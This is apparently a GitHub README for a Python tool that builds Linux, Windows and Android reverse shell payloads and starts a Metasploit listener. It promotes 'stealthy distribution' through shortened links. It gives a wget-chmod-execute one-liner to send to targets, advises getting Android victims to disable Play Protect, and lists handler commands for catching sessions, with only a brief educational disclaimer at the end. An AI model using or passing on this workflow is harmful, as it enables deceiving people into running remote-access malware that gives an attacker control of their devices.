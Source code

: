 # **Reverse Shell Payload Generator**  

🔥 **Quickly generate Linux, Windows, and Android reverse shell payloads** and start a Metasploit listener for easy control.  

---

## **🚀 Features**  
✅ Generate payloads for:  
- **Linux** (`.elf`)  
- **Windows** (`.exe`)  
- **Android** (`.apk`)  

✅ **Automatic HTTP server setup** for easy file delivery  
✅ **Shortened links** for stealthy distribution  
✅ **Metasploit auto-config** to listen for incoming sessions  

---

## **📌 Installation & Setup**  

### **1️⃣ Install Dependencies**  
Ensure you have:  
- **Python 3**  
- **Metasploit Framework**  
- **`msfvenom`** (part of Metasploit)  

For Debian/Ubuntu, run:  
```bash
sudo apt update && sudo apt install metasploit-framework python3
```

---

### **2️⃣ Run the Script**  
```bash
sudo python3 payload.py
```

---

## **🛠 Usage**  
When you run the script, you’ll see this menu:  

```
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║
███████╗█████╗     ██║   ███████║
╚════██║██╔══╝     ██║   ██╔══██║
███████║███████╗   ██║   ██║  ██║
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝

🔥 Quicker way to generate that rev shell 🔥

[1] Linux Reverse Shell
[2] Windows Reverse Shell
[3] Android Reverse Shell
[4] Start Metasploit & Monitor sessions
[0] Exit
```

**Choose an option:**  
- **1, 2, or 3** → Generates a payload and gives a **download link**  
- **4** → Starts a **Metasploit listener** to catch the session  

---

## **📡 Delivering the Payload**  

### **🔹 Linux & Windows Targets**  
Send the generated command:  
```bash
wget -qO <payload> <shortened_link> && chmod +x <payload> && ./<payload>
```

### **🔹 Android Targets**  
Tell them to **open the link in their browser** and install the APK manually.  

> **Play Protect Warning:**  
> They may need to **disable Play Protect** in the Google Play Store to install the APK.  

---

## **📡 Start the Listener (Metasploit)**  
Once a payload is executed, start listening:  

```bash
use exploit/multi/handler
set payload <payload_type>
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

When the target runs the payload, **you get a session**! 🎯  

---

## **⚠️ Disclaimer**  
This tool is for **educational purposes only**. Unauthorized use **is illegal**. **Use it only on systems you have permission for!**  

---
